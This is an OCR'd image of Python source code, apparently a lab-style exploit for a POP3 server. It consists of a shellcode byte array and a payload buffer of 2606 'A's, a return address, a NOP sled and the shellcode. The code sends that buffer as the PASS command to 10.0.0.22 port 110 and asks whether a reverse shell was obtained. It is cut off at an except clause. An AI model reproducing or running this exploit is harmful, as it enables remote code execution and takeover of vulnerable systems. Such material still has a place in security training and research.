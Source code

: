 "\\x96\\x82\\xad\\xe9\\x1f\\x67\\x9c\\x29\\x7b\\xec\\x8f\\x99\\x0f\\xa0\\x23"

"\\x51\\x5d\\x50\\xb7\\x17\\x4a\\x57\\x70\\x9d\\xac\\x56\\x81\\x8e\\x8d\\xf9"

"\\x01\\xcd\\xc1\\xd9\\x38\\x1e\\x14\\x18\\x7c\\x43\\xd5\\x48\\xd5\\x0f\\x48"

"\\x7c\\x52\\x45\\x51\\xf7\\x28\\x4b\\xd1\\xe4\\xf9\\x6a\\xf0\\xbb\\x72\\x35"

"\\xd2\\x3a\\x56\\x4d\\x5b\\x24\\xbb\\x68\\x15\\xdf\\x0f\\x06\\xa4\\x09\\x5e"

"\\xe7\\x0b\\x74\\x6e\\x1a\\x55\\xb1\\x49\\xc5\\x20\\xcb\\xa9\\x78\\x33\\x08"

"\\xd3\\xa6\\xb6\\x8a\\x73\\x2c\\x60\\x76\\x85\\xe1\\xf7\\xfd\\x89\\x4e\\x73"

"\\x59\\x8e\\x51\\x50\\xd2\\xaa\\xda\\x57\\x34\\x3b\\x98\\x73\\x90\\x67\\x7a"

"\\x1d\\x81\\xcd\\x2d\\x22\\xd1\\xad\\x92\\x86\\x9a\\x40\\xc6\\xba\\xc1\\x0c"

"\\x2b\\xf7\\xf9\\xcc\\x23\\x80\\x8a\\xfe\\xec\\x3a\\x04\\xb3\\x65\\xe5\\xd3"

"\\xb4\\x5f\\x51\\x4b\\x4b\\x60\\xa2\\x42\\x88\\x34\\xf2\\xfc\\x39\\x35\\x99"

"\\xfc\\xc6\\xe0\\x0e\\xac\\x68\\x5b\\xef\\x1c\\xc9\\x0b\\x87\\x76\\xc6\\x74"

"\\xb7\\x79\\x0c\\x1d\\x52\\x80\\xc7\\xe2\\x0b\\x8c\\x97\\x8b\\x49\\x90\\x86"

"\\x2c\\xc7\\x76\\xc2\\xa2\\x81\\x21\\x7b\\x5a\\x88\\xb9\\x1a\\xa3\\x06\\xc4"

"\\x1d\\x2f\\xa5\\x39\\xd3\\xd8\\xc0\\x29\\x84\\x28\\x9f\\x13\\x03\\x36\\x35"

"\\x3b\\xcf\\xa5\\xd2\\xbb\\x86\\xd5\\x4c\\xec\\xcf\\x28\\x85\\x78\\xe2\\x13"

"\\x3f\\x9e\\xff\\xc2\\x78\\x1a\\x24\\x37\\x86\\xa3\\xa9\\x03\\xac\\xb3\\x77"

"\\x8b\\xe8\\xe7\\x27\\xda\\xa6\\x51\\x8e\\xb4\\x08\\x0b\\x58\\x6a\\xc3\\xdb"

"\\x1d\\x40\\xd4\\x9d\\x21\\x8d\\xa2\\x41\\x93\\x78\\xf3\\x7e\\x1c\\xed\\xf3"

"\\x07\\x40\\x8d\\xfc\\xd2\\xc0\\xbd\\xb6\\x7e\\x60\\x56\\x1f\\xeb\\x30\\x3b"

"\\xa0\\xc6\\x77\\x42\\x23\\xe2\\x07\\xb1\\x3b\\x87\\x02\\xfd\\xfb\\x74\\x7f"

"\\x6e\\x6e\\x7a\\x2c\\x8f\\xbb")

buffer="A"\*2606 + "\\x8f\\x35\\x4a\\x5f" + "\\x90" \* 8 + shellcode

try:

>   print "\\nSending evil buffer..."

>   s.connect(('10.0.0.22',110))

>   data = s.recv(1024)

>   s.send('USER username' +'\\r\\n')

>   data = s.recv(1024)

>   s.send('PASS ' + buffer + '\\r\\n')

>   s.close()

>   print "\\ Done. Did you get a reverse shell?"

except:
